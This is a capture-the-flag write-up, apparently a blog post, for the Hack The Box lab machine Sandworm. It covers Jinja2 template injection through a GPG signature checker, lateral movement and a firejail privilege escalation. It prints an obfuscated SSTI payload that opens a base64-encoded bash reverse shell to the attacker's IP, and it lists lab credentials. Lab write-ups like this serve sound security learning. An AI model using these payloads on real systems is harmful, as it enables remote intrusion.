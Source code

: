 ```yaml
---
layout: post
title: "HTB Linux Medium: Sandworm"
description: "Sandworm is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```



## Nmap
![Pasted image 20240714210737.png](/images/Pasted image 20240714210737.png){: .normal }

Modify the hosts file, add the `ssa.htb` domain:
![Pasted image 20240714210717.png](/images/Pasted image 20240714210717.png){: .normal width="500"}


## _**Initial Foothold**_

### Enumerating HTTP (Port 443)
Run Gobuster for directory enumeration (use -k flag to disable certificates).
![Pasted image 20240714210712.png](/images/Pasted image 20240714210712.png){: .normal }

The page found on /guide lets us verify signatures. We can test SSTI in here.
![Pasted image 20240714210708.png](/images/Pasted image 20240714210708.png){: .normal }

Start off by generating a gpg key, set your payload in the "Real name" field.
![Pasted image 20240714210703.png](/images/Pasted image 20240714210703.png){: .normal }

Next up, we can print our public gpg key (which is used on the website).
![Pasted image 20240714210656.png](/images/Pasted image 20240714210656.png){: .normal width="500" }

Now we can create signed text that we will decrypt on the website (which will execute our SSTI).
![Pasted image 20240714210649.png](/images/Pasted image 20240714210649.png){: .normal width="500" }

Next, enter your public key and signed message on the website and press "Verify Signature".
![Pasted image 20240714210638.png](/images/Pasted image 20240714210638.png){: .normal width="460"}

As you can see our SSTI was successful as it displays 49 instead of {% raw %}`{{7x7}}`{% endraw %}, since we know we have SSTI on the box we can use it to establish a reverse shell using the following payload.
![Pasted image 20240714210629.png](/images/Pasted image 20240714210629.png){: .normal }
{% raw %}
```bash
{{self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNTUvMTIzNCAwPiYxJwo= | base64 -d | bash').read() }}
```
{% endraw %}

Repeat the same steps as before (now entering our payload in the Real Name field) to establish a reverse shell.
![Pasted image 20240714210622.png](/images/Pasted image 20240714210622.png){: .normal width="600" }


## _**Lateral Movement**_
User credentials can be found for the silentobserver user in the following file `silentobserver:quietLiketheWind22`.
![Pasted image 20240714210618.png](/images/Pasted image 20240714210618.png){: .normal }

SSH into the box as the silentobserver user.
![Pasted image 20240714210612.png](/images/Pasted image 20240714210612.png){: .normal }

Checking for running processes we find that the atlas user is running target/debug/tipnet.
![Pasted image 20240714210609.png](/images/Pasted image 20240714210609.png){: .normal width="700" }

Looking at the files in the debug folder we see the following.
![Pasted image 20240714210604.png](/images/Pasted image 20240714210604.png){: .normal width="600" }

In the tipnet.d file we can see files that are being ran.
![Pasted image 20240714210557.png](/images/Pasted image 20240714210557.png){: .normal }

The second one seems to have write permissions (we can put a reverse shell in here).
![Pasted image 20240714210552.png](/images/Pasted image 20240714210552.png){: .normal }

Payload.
![Pasted image 20240714210546.png](/images/Pasted image 20240714210546.png){: .normal }


## _**Priv Esc**_
Sticky bit on firejail found using Linpeas.
![Pasted image 20240714210541.png](/images/Pasted image 20240714210541.png){: .normal }


Googling for a firejail SUID exploit we find a Python script that we can run.
![Pasted image 20240714210536.png](/images/Pasted image 20240714210536.png){: .normal }

In another instance, we can join the firejail and change our user to root.
![Pasted image 20240714210525.png](/images/Pasted image 20240714210525.png){: .normal width="450"}


## User.txt
![Pasted image 20240714210511.png](/images/Pasted image 20240714210511.png){: .normal width="400"}


## Root.txt
![Pasted image 20240714210505.png](/images/Pasted image 20240714210505.png){: .normal width="400"}


## You have PWNED
![Pasted image 20240714210500.png](/images/Pasted image 20240714210500.png){: .normal }


### Sources
- [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Reverse Shell](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
- [Firejail exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)